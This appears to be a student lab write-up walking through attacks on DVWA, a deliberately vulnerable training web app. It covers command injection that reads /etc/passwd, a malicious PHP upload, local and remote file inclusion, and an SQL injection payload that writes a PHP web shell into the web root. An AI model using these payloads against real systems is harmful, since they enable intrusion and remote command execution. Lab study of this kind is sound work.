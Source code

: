 # Injections

## Prerequisites

- DVWA setup and accessible
- Login as `admin:password`
- From the side navbar, navigate to `DVWA Security` and set security level to `low`

## Command Injection

- From the website, navigate to `Command Injection`.
- In the IP address textfield, type `127.0.0.1 ; cat /etc/passwd`.
- Click the submit button.
- You should see the following

<img src="https://github.com/AndreaPallotta/CSEC_472_Group_2/blob/main/lab_3/screenshots/command_injection.PNG" alt="command_injection_screenshot" />

## Malicious File Upload

- From the website, navigate to `File Upload`.
- Click the `Browse` button.
- Select [file_upload.php](utils/file_upload.php).
- Click the upload button and way for the success message.
- Navigate to `{IP}/hackable/uploads/file_upload.php`.
- If the php script is successfully executed, you should something similar to the following:

<img src="https://github.com/AndreaPallotta/CSEC_472_Group_2/blob/main/lab_3/screenshots/file_upload.PNG" alt="file_upload_screenshot" />

## Local File Inclusion

- From the website, navigate to `File Inclusion`.
- Notice how the end of the URL contains the following parameter: `page=include.php`.
- Replace `include.php` with `../../../../../../proc/version`
- You should see the following:

<img src="https://github.com/AndreaPallotta/CSEC_472_Group_2/blob/main/lab_3/screenshots/local_file_inclusion.PNG" alt="local_file_inclusion_screenshot" />

## Remote File Inclusion

- From the website, navigate to `File Inclusion`.
- Notice how the end of the URL contains the following parameter: `page=include.php`.
- Replace `include.php` with `https://google.com`
- You should see the following:

<img src="https://github.com/AndreaPallotta/CSEC_472_Group_2/blob/main/lab_3/screenshots/remote_file_inclusion.PNG" alt="remote_file_inclusion_screenshot" />

## SQL Injection + backdoor

- POSSIBLE PAYLOAD: `' UNION SELECT "<? system($_REQUEST['cmd']); ?>",2,3,4 INTO OUTFILE "/var/www/html/temp/c.php"#`\

I am getting the following error, but it might be caused by the way I set up the webapp:  `Acceess denied for user 'dvwa'@'localhost' (using password: YES)`
